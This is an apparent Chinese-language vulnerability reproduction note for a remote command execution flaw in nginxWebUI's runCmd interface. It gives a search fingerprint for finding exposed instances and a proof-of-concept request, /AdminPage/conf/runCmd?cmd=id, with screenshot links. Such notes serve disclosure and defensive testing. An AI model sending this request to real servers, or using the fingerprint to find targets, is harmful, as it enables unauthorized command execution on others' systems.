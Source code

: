 # nginxWebUI runCmd 远程命令执行漏洞

## 漏洞描述

nginxWebUI runCmd 接口存在远程命令执行漏洞，攻击者通过漏洞可以获取到服务器权限，执行任意命令

## 漏洞影响

<a-checkbox checked>nginxWebUI  </a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="nginxwebui" </a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1656223039336-00b1d204-6cba-4178-b152-fa38c63a72c1-6057456.png)

验证请求包

```php
/AdminPage/conf/runCmd?cmd=id
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1686057565628-a73253da-a91a-4065-9fc0-2ce30caf1e5a.png)